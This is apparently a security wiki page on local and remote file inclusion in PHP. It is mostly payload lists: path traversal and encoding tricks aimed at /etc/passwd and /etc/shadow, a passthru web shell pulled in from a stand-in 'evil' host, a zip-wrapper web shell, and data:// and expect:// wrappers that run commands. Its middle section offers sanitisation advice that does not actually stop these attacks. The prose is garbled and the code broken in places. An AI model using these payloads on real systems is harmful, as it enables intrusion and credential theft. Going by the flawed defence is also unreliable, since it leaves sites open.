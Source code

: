```yaml
---
description: 'CWE-23: Relative Path Traversal'
---
```


# LFI

* **manually using Burp and word list** [**lfi.txt**](https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/lfi.txt)

```xml
filename=....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../etc/passwd -> validation of the start of the file 
../../../etc/passwd%00.png
```

#### RFI/LFI Payload List

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give example codes in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something will appear like this.

```
http: //localhost/index.php? page = files.php
```

Now, if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ \_GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars () htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str\_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

**Basic LFI (null byte, double encoding and other tricks) :**

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

**Basic RFI (null byte, double encoding and other tricks) :**

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

**LFI / RFI Wrappers :**

LFI Wrapper rot13 and base64 - php://filter case insensitive.

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

**LFI Wrapper ZIP :**

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

**RFI Wrapper DATA with "" payload :**

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

**RFI Wrapper EXPECT :**

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

**XSS via RFI/LFI with "" payload :**

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

**LFI to RCE via /proc/\*/fd :**

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

**LFI to RCE via Upload :**

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

**References :**

👉 [Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing\_for\_Local\_File\_Inclusion)

👉 [Wikipedia](https://www.wikipedia.org/wiki/Local\_File\_Inclusion)

👉 [Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

👉 [Wikipedia: "Remote File Inclusion"](http://en.wikipedia.org/wiki/Remote\_File\_Inclusion)

👉 [PHP File Inclusion](https://www.owasp.org/index.php/PHP\_File\_Inclusion)
